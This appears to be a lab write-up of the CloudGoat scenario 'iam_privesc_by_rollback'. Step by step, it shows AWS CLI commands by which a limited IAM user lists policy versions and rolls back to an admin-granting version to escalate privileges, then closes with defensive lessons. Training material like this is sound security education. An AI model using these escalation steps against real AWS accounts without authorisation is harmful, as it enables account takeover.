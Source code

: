 # Scenario: iam_privesc_by_rollback

In this CloudGoat scenario, we'll find how a highly-limited IAM user can exploit an AWS policy misconfiguration to gain full administrative privileges. This is achieved by rolling back an IAM policy to a previous version that grants full access rights. The goal is to understand the risks associated with improperly managed IAM policies and how attackers can exploit such vulnerabilities to escalate privileges.

### Scenario Summary
- **Scenario Size:** Small
- **Difficulty:** Easy
- **Starting Point:** IAM User named "Raynor"
- **Goal:** Acquire full admin privileges

In this walkthrough, you will:
1. Analyze the permissions of the limited IAM user "Raynor."
2. Review previous versions of the attached policy.
3. Restore an older policy version that grants full admin privileges.

### AWS Concepts to Know
Before diving in, let's briefly discuss some important AWS terms used in this scenario:
- **IAM User:** An IAM user is an identity that you create in AWS to interact with resources. In this scenario, the user "Raynor" has highly restricted permissions.
- **IAM Policy:** Policies define permissions for IAM users or roles. AWS allows policies to have multiple versions, but only one can be the active default version at any time.
- **SetDefaultPolicyVersion:** This permission allows a user to switch the default version of a policy to any of the available versions, potentially leading to privilege escalation if older versions have overly permissive rules.

### Step-by-Step Walkthrough

#### Step 1: Create the Scenario
First, we create the scenario using the CloudGoat tool, which sets up the environment for us.

```bash
~/cloudgoat$ ./cloudgoat.py create iam_privesc_by_rollback
```
This command will output the access key and secret key for the IAM user "Raynor".

```plaintext
cloudgoat_output_raynor_access_key_id = AK
cloudgoat_output_raynor_secret_key = zn
```

#### Step 2: Configure AWS Profile for User "Raynor"
We start by configuring the AWS CLI to use credentials for the user "Raynor". This allows us to interact with AWS services using Raynor's limited permissions.

```bash
~/cloudgoat$ aws configure --profile raynor
AWS Access Key ID [None]: AK
AWS Secret Access Key [None]: zn+
Default region name [None]: 
Default output format [None]:
```

#### Step 3: List Attached Policies for Raynor
Using the AWS CLI, we list all the policies attached to the IAM user "Raynor" to understand what actions can be performed.

```bash
~/cloudgoat$ aws --profile raynor iam list-attached-user-policies --user-name raynor-iam_privesc_by_rollback_cgid6qy1h0boey
```
The output shows that there is one policy attached to Raynor:

```json
{
    "AttachedPolicies": [
        {
            "PolicyName": "cg-raynor-policy-iam_privesc_by_rollback_cgid6qy1h0boey",
            "PolicyArn": "arn:aws:iam::997581282912:policy/cg-raynor-policy-iam_privesc_by_rollback_cgid6qy1h0boey"
        }
    ]
}
```

#### Step 4: Get Policy Details
We retrieve details about the attached policy to understand its current version and permissions.

```bash
~/cloudgoat$ aws --profile raynor iam get-policy --policy-arn arn:aws:iam::997581282912:policy/cg-raynor-policy-iam_privesc_by_rollback_cgid6qy1h0boey
```
The output shows that the default version of the policy is **v1**.

#### Step 5: List All Policy Versions
AWS allows policies to have multiple versions, and only one can be the default version at any given time. We list all versions of the attached policy to see if there is any version that grants more permissions.

```bash
~/cloudgoat$ aws --profile raynor iam list-policy-versions --policy-arn arn:aws:iam::997581282912:policy/cg-raynor-policy-iam_privesc_by_rollback_cgid6qy1h0boey
```
The output shows that there are multiple versions of this policy, from **v1** to **v5**.

#### Step 6: Analyze Older Policy Versions
We retrieve details of each older version to understand their permissions.

- **Version v5**: Allows limited access to IAM resources based on time conditions.

```bash
~/cloudgoat$ aws --profile raynor iam get-policy-version --policy-arn arn:aws:iam::997581282912:policy/cg-raynor-policy-iam_privesc_by_rollback_cgid6qy1h0boey --version-id v5
```
- **Version v4**: Grants read-only access to Amazon S3.

```bash
~/cloudgoat$ aws --profile raynor iam get-policy-version --policy-arn arn:aws:iam::997581282912:policy/cg-raynor-policy-iam_privesc_by_rollback_cgid6qy1h0boey --version-id v4
```
- **Version v3**: Grants full administrative privileges, allowing any action on any resource.

```bash
~/cloudgoat$ aws --profile raynor iam get-policy-version --policy-arn arn:aws:iam::997581282912:policy/cg-raynor-policy-iam_privesc_by_rollback_cgid6qy1h0boey --version-id v3
```
- **Version v2**: Contains a deny policy based on IP address conditions.

```bash
~/cloudgoat$ aws --profile raynor iam get-policy-version --policy-arn arn:aws:iam::997581282912:policy/cg-raynor-policy-iam_privesc_by_rollback_cgid6qy1h0boey --version-id v2
```

#### Step 7: Set Default Policy Version to v3
After reviewing the policy versions, we find that version **v3** grants full administrative privileges. We use the **SetDefaultPolicyVersion** permission to switch the default policy version to **v3**.

```bash
~/cloudgoat$ aws --profile raynor iam set-default-policy-version --policy-arn arn:aws:iam::997581282912:policy/cg-raynor-policy-iam_privesc_by_rollback_cgid6qy1h0boey --version-id v3
```
With this command, Raynor now has full admin privileges and can perform any action within the AWS account.

#### Step 8: Verify Admin Privileges
We can verify that Raynor now has full administrative privileges by attempting an action that requires elevated permissions, such as listing all S3 buckets.

```bash
~/cloudgoat$ aws --profile raynor s3 ls
```
The command succeeds, indicating that Raynor now has full access.

#### Step 9: Destroy the Scenario
After completing the scenario, we destroy the environment to clean up the resources.

```bash
~/cloudgoat$ ./cloudgoat.py destroy iam_privesc_by_rollback_cgid6qy1h0boey/
```

### Conclusion
In this scenario, we demonstrated how a limited IAM user could escalate privileges by exploiting the **SetDefaultPolicyVersion** permission. By reverting to an older policy version with full admin rights, the user was able to gain complete control over the AWS account.

Key lessons from this scenario include understanding the importance of restricting access to policy version management and ensuring that old, overly permissive policy versions are deleted or properly controlled to prevent privilege escalation attacks.

